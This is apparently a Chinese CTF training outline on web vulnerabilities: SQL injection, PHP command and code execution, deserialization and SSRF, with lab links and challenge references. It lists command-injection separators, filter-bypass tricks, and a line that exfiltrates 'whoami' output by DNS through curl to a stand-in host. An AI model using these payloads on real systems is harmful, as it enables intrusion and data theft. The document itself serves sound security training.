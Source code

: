 ### sql注入原理与进阶
知识点-对应练习:
- 万能密码  http://139.224.43.82:49154/index.php
- 常规sql注入-sqli-labs前俩关
- 报错注入-sqli-labs第五关 [[培训/报错注入]]
- 盲注(布尔盲注,时间盲注) [[培训/盲注脚本]] [[培训/[CISCN 2019华北Day2]Web1]] nssctf
- 堆叠注入-[[培训/强网杯 2019随便注]]
总结:sql语句拼接导致,预编译可直接阻止,但是预编译在order by存在时无法使用,此时只能过滤

练习:sqli-lab靶场
http://ip/sqli-labs/
[[通关流程]]
真题复现:
f
### php代码执行与命令执行
总结:
命令执行:
```
system()，passthru()，exec()，pcntl_exec()，shell_exec()，popen()/proc_popen()，反引号 ``
```
代码执行:
```
eval()，assert()，call_user_func()，create_function()，array_map()，call_user_func_array()，array_filter()，uasort()，preg_replace()
```
只要上述函数里的变量可控,即有可能存在漏洞

命令执行
```python
; ` & || | $()
#换行
%0A
#回车
%0d
#局部变量
a=l;b=s;$a$b
#curl 外带
curl `whoami`.xxx.com
```

关键词过滤
```python
ca\t fl\ag

```
练习:dvwa

真题复现:
[UUCTF 2022 新生赛]ez_rce [[培训/[UUCTF 2022 新生赛]ez_rce]]
[GXYCTF 2019]Ping Ping Ping nssctf [[培训/pingpingping]]
ctfshow命令执行大挑战
ciscn 2023 dumpit
sekaictf 2023 Scanner Service

### php反序列化综合
序列化示例代码
```php
<?php 
    class test
    {
        private $flag = "flag{233}";
        public $a = "aaa";
        static $b = "bbb";
    }

    $test = new test;
    $data = serialize($test);
    echo $data;
 ?>

```

键:数量:值

反序列化代码
```php
<?php 
    $str = 'O%3A4%3A%22test%22%3A2%3A%7Bs%3A10%3A%22%00test%00flag%22%3Bs%3A9%3A%22flag%7B233%7D%22%3Bs%3A1%3A%22a%22%3Bs%3A3%3A%22aaa%22%3B%7D';
    $data = urldecode($str);
    $obj = unserialize($data);

    var_dump($obj);
 ?>
```


练习:
[SWPUCTF 2021 新生赛]ez_unserialize

魔术方法
```php
__construct()//创建对象时触发
__destruct() //对象被销毁时触发
__call() //在对象上下文中调用不可访问的方法时触发
__callStatic() //在静态上下文中调用不可访问的方法时触发
__get() //用于从不可访问的属性读取数据
__set() //用于将数据写入不可访问的属性
__isset() //在不可访问的属性上调用isset()或empty()触发
__unset() //在不可访问的属性上使用unset()时触发
__invoke() //当脚本尝试将对象调用为函数时触发
...
```

练习: 
http://139.224.43.82:49156/

http://36.152.17.3:40024/


#### 进阶:
绕过__wakeup():
> 利用条件：
PHP5 < 5.6.25
​PHP7 < 7.0.10

当序列化字符串中表示对象属性个数的数字值大于真实类中属性的个数时就会跳过__wakeup的执行，
[[[SWPUCTF 2021 新生赛]no_wakeup]]


php反序列化字符串逃逸:

pop:
[[培训/[SWPUCTF 2021 新生赛]pop]]
[[培训/[NISACTF 2022]popchains]]
[[培训/[GDOUCTF 2023]反方向的钟]]
### ssrf(Server Side Request Forgery)服务端请求伪造
练习靶场
http://110.40.154.212/06/vul/ssrf/ssrf.php
https://portswigger.net/web-security/ssrf/lab-basic-ssrf-against-localhost
真题:
[[培训/[NISACTF 2022]easyssrf]]
[[培训/[HNCTF 2022 WEEK2]ez_ssrf]]
[[培训/ctfshow351-360]]

http://username:password@localhost
